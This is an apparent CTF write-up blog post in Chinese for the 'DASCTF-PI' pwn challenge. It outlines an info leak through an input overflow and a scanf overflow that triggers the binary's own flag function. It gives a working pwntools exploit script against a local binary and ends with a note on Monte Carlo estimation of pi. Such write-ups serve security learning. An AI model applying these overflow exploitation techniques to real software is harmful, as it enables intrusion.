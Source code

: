 ```yaml
---
author: AngryCanary
tag: WriteUp
layout: post
---
```


# DASCTF-PI WriteUp

## 核心利用点

>信息泄露:  利用 程序输入函数的逻辑BUG 溢出 粘连 出有价值信息
>
>GetShell: 未GetShell
>
>GetFlag: 程序自带GetFlag。利用Scanf溢出触发

## 程序内容

![text1]({{ site.url }}/assets/pi/text1.png)

![text2]({{ site.url }}/assets/pi/text2.png)

![text3]({{ site.url }}/assets/pi/text3.png)

![text4]({{ site.url }}/assets/pi/text4.png)

![text5]({{ site.url }}/assets/pi/text5.png)

## Exploit

```python
from pwn import*

p = process("./pi")

context.arch = "amd64"

payload1 = "a" * 0xd0

p.sendlineafter("Username:",payload1)

p.recvuntil("a"*64)

radnum = int(p.recv(10),10)

p.sendlineafter("Passcode:",str(radnum)+p64(0)+p64(8)+p64(0x88)*20)

p.sendline("4632251120704552960") #Which OverFLow The Float.

p.interactive()
```

## 额外的收获

### 蒙特卡洛求圆周率方法

>圆周率   ->  周长/直径  =  面积/(半径^2)
>
> 圆面积 / 矩形面积 = (pi * r^2 ) / (2r) ^ 2 = pi / 4 
>
>因为落点随机 求得落在圆中概率-> pi / 4
>
>pi = 概率 * 4
>
>具体算法已经体现在上方程序内容中

